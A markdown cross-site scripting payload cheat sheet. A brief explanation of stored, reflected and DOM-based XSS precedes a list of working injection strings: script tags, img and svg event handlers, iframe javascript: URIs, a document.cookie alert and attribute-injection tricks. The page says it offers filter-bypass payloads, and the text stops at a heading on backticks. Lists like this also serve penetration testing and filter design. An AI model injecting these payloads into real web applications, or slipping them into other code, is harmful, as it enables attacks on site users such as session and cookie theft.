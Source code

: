 
# XSS Payload Collection

## Overview

Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. It allows attackers to inject malicious scripts into web pages viewed by other users. There are three main types of XSS attacks: Stored XSS, Reflected XSS, and DOM-based XSS. This page provides a comprehensive collection of XSS payloads for each type, including advanced and encrypted payloads for bypassing filters.

## Stored XSS Payloads

Stored XSS occurs when a malicious script is permanently stored on the target server, such as in a database, comment field, or forum post. When a user requests the stored information, the script is executed.

### Basic Payloads

`<script>alert('XSS');</script>` 

`<script>alert(document.cookie);</script>` 

`<img src=x onerror=alert('XSS')>` 

### Advanced Payloads

`<svg/onload=alert('XSS')>` 

`<body onload=alert('XSS')>` 

`<iframe src="javascript:alert('XSS');"></iframe>` 

### Event Handlers


`<div onmouseover="alert('XSS')">Hover over me!</div>` 

`<input type="text" value="XSS" onfocus="alert('XSS')">` 

`<a href="#" onclick="alert('XSS')">Click me</a>` 

### Attribute Injection

`<math><mtext><malignmark><mi><audio autoplay onloadstart=alert('XSS')></audio>` 

`<xss style="xss:expression(alert('XSS'))">` 

`<marquee width=1 loop=1 scrollamount=1 onfinish=confirm(1)>` 

### Filter Bypass Payloads

#### Using Backticks

